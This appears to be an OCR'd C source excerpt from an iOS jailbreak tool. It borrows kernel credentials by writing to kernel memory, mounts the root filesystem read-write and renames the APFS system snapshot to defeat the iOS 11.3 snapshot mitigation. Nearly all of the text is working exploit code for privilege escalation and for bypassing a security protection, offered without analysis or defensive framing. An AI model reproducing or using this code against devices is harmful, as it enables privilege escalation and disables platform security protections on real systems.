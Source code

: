 ```c
    mkdir(ROOTFSMNT, 0755);
    chown(ROOTFSMNT, 0, 0);
    
    printf("Temporarily setting kern ucred\n");
    
    wk64(our_proc+offsetof_p_ucred, kernucred);
    
    int rv = -1;
    
    if (mountDevAsRWAtPath(dev_path, ROOTFSMNT) != ERR_SUCCESS) {
        printf("Error mounting root at %s\n", ROOTFSMNT);
        
        goto out;
    }
    
    /* APFS snapshot mitigation bypass bug by CoolStar, exploitation by Pwn20wnd */
    /* Disables the new APFS snapshot mitigations introduced in iOS 11.3 */
    
    printf("Disabling the APFS snapshot mitigations\n");
    
    const char *systemSnapshot = find_system_snapshot(ROOTFSMNT);
    const char *newSystemSnapshot = "orig-fs";
    
    if (!systemSnapshot) {
        goto out;
    }
    
    int rvrename = do_rename(ROOTFSMNT, systemSnapshot, newSystemSnapshot);
    
    if (rvrename) {
        goto out;
    }
    
    rv = 0;

    unmount(ROOTFSMNT, 0);
    rmdir(ROOTFSMNT);
    
out:
    printf("Restoring our ucred\n");
    
    wk64(our_proc+offsetof_p_ucred, ourucred);
    
    //cleanup
    vnode_put(devVnode);
    
    if (!rv) {
        printf("Disabled the APFS snapshot mitigations\n");
        
        printf("Restarting\n");
        restarting();
        sleep(2);
        do_restart();
    } else {
        printf("Failed to disable the APFS snapshot mitigations\n");
    }
    
    return -1;
}
```
